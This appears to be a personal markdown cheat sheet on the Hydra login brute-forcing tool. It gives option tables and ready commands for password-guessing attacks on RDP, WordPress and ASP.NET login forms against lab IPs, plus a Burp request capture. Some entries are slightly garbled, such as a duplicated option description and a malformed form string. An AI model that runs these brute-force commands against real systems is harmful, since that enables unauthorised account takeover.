 # Hydra

| Option            | Explanation                                                   |
| ----------------- | ------------------------------------------------------------- |
| `-l username`     | Provide the login name                                        |
| `-P WordList.txt` | Specify the password list to use                              |
| `server service`  | Set the server address and service to attack                  |
| `-s PORT`         | Set the server address and service to attack                  |
| `-V` or `-vV`     | Show the username and password combinations being tried       |
| `-d`              | Display debugging output if the verbose output is not helping | 

| Command                                                                                                                                         | Description                                                                                                                                                        |
| ----------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| `hydra -P <wordlist> -v <ip> <protocol>`                                                                                                        | Brute force against a protocol of your choice                                                                                                                      |
| `hydra -v -V -u -L <username list> -P <password list> -t 1 -u <ip> <protocol>`                                                                  | You can use Hydra to bruteforce usernames as well as passwords. It will loop through every combination in your lists. (-vV = verbose mode, showing login attempts) |
| `hydra -t 1 -V -f -l <username> -P <wordlist> rdp://<ip>`                                                                                       | Attack a Windows Remote Desktop with a password list.                                                                                                              |
| `hydra -l <username> -P .<password list> $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' ` | Craft a more specific request for Hydra to brute force.                                                                                                            | 

Craft a more specific request for Hydra to brute force.

```shell
hydra -l <username> -P /usr/share/wordlists/<wordlist> <ip> http-post-form
```

```shell
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.13.215 http-form-post "/Account/login.aspx?ReturnURL=admin:__VIEWSTATE=Q3C6t5UR5WbecqI6RxFVaHu2Jtr1TdsBm55dod6%2BSIHxT0kxMBXn8wPbUnML9Vy9uRcSdloliGhTiMXdg3L7dnVvby02BPayOuD6c2LVg%2FU1c1yfSmFi5O6NlaTJYr68DyAXNg6D0j2asLCrpbH%2FWtzIy%2BZc3SUPCjeyLjkOGGAvF%2BTu&__EVENTVALIDATION=v4fE3cbsejLdoruZ%2FnmnsQwMup0S0RVxnZgjAleWBCxzueQe6GQdUCeTG2i7uhPOvsZLXXydTOvEA2CVgd1vzxHIeYpzSSUxXjRSmXxYMBjDiqZ%2BE3y8DMbAC4KwudESlYVM2xBlpPHOe5utRfzqUDFKO5Df4kWeOvLVLRLBuTxZAlxu&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed" 
```

WordPress - Burp
```php
POST /wp-login.php HTTP/1.1

Host: 10.10.114.27

log=§admin§&pwd=§admin§&wp-submit=§Log+In§&redirect_to=§https%3A%2F%2F10.10.114.27%2Fwp-admin%2F§&testcookie=§1§
```

WordPress - Hydra input
```shell
hydra -L fsocity.dic -p test 10.10.114.27 http-post-form "/wp-login.php:log=^USER^&pwd^PWD^:Invaild username" -t 30

```

#tools #hydra